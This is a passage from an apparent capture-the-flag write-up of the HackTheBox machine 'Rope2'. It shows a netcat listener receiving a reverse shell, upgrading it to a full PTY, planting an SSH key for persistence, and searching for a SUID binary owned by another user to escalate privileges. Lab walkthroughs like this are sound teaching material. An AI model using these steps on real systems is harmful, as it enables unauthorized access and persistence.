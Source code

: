 ![image-20201115074354796](https://0xdfimages.gitlab.io/img/image-20201115074354796.png)

At `nc`, a shell connects:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.196.
Ncat: Connection from 10.10.10.196:58812.
id
uid=1001(chromeuser) gid=1001(chromeuser) groups=1001(chromeuser)

```

And upgrade my shell:

```

python3 -c 'import pty;pty.spawn("bash")'
chromeuser@rope2:/home/chromeuser/web$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali# stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
chromeuser@rope2:/home/chromeuser/web$

```

I’ll also add my public SSH key to the chromeuser’s `authorized_keys` file for SSH access.

## Priv: chromeuser –> r4j

### Enumeration

There’s not anything in chromeuser’s home directory except for the web stuff used to get a shell. There’s a second user on the box, r4j. chromeuser can’t access r4j’s home directory, but I did go looking for files owned by r4j:

```

chromeuser@rope2:/$ find / -user r4j -ls 2>/dev/null | grep -v -e " \/proc" -e " \/sys"
  1056436     16 -rwsr-xr-x   1 r4j      r4j         14312 Feb 24  2020 /usr/bin/rshell
  1054404      4 drwx------   7 r4j      r4j          4096 Nov 24 15:30 /home/r4j
        2      0 drwx------   4 r4j      r4j           100 Nov 24 14:44 /run/user/1000
        9      0 crw--w----   1 r4j      tty        136,   6 Nov 24 15:30 /dev/pts/6

```

I’m immediately drawn to `/usr/bin/rshell`, as not only is it owned by r4j, but it’s SUID, so if I can exploit it, I’ll be running as r4j.
